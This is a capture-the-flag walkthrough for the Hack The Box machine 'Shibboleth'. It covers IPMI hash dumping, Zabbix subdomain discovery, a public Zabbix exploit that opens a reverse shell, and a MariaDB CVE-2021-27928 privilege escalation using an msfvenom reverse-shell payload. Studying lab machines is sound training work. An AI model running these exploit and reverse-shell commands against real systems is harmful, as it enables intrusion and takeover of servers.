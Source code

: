 ## Shibboleth

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.11.124 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/a0c0fbef-5f9f-48c0-b6ad-8c179dfcbc4e)

<br>

On website we can see in the footer some information. This indicate to us that Zabbix and something related to BMC are being used.

![websiteInformation](https://github.com/b1d0ws/OSCP/assets/58514930/e4ce10b3-9716-4dd3-b957-d9f0c60b3786)

<br>

We can enumerate IPMI doing UDP scan with nmap.

```
sudo nmap -sU 10.10.11.124 -T4 --top-ports=100
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/f7bb231d-1eec-4e00-aafd-6601991b1d1b)

<br>

Searching for IPMI exploit, [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) show a metasploit module that can be used to dump hashes.  

We can crack this hash with hashcat and find a password.

```
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

![dumpHashes](https://github.com/b1d0ws/OSCP/assets/58514930/a3a8e681-d898-4048-9d1a-bdf7f0aab613)

![crackingHash](https://github.com/b1d0ws/OSCP/assets/58514930/5a5f7f32-d68b-4ea3-bfcf-d7e73eb5af65)

<br>

To find Zabbix, we can enumerate subdomains with wfuzz.

```
wfuzz -H 'Host: FUZZ.shibboleth.htb' -u http://shibboleth.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 26
```

![wfuzz](https://github.com/b1d0ws/OSCP/assets/58514930/08f78443-b3bd-44b9-b01b-a17bb61ef0d5)

![zabbixPanel](https://github.com/b1d0ws/OSCP/assets/58514930/8e1c48e6-018b-4611-b7ae-0d511231f09c)

<br>

Log into zabbix with the credentials got before and use this [exploit](https://www.exploit-db.com/exploits/50816) to get a reverse shell.

```
python3 50816.py http://zabbix.shibboleth.htb Administrator ilovepumkinpie1 10.10.14.11 1337
```

![gettingShell](https://github.com/b1d0ws/OSCP/assets/58514930/de14a407-41d2-472d-bff2-cebb8e143c7a)

Now you can use the first password to login as ipmi-svc user.

### Root Flag

LinPeas return to us zabbix credentials that can be used to login in MySQL.  

Connecting to it, we enumerate the version of MariaDB.

![zabbixConfig](https://github.com/b1d0ws/OSCP/assets/58514930/3eeb3cb6-8cd3-4b39-9c48-454b8f962a82)

![mysqlVersion](https://github.com/b1d0ws/OSCP/assets/58514930/244a4760-014c-4d06-b620-f6d428ead0c2)

<br>

Searching for exploit of this database, this [github](https://github.com/Al1ex/CVE-2021-27928) show how to perform command injection on it.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=3333 -f elf-so -o CVE-2021-27928.so

mysql -u zabbix -p
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

![searchingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/3563b3bd-6d76-406d-b357-05f69a61000e)

![rootPrivilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/f3631126-9e30-4694-82fe-9b48d61c321e)
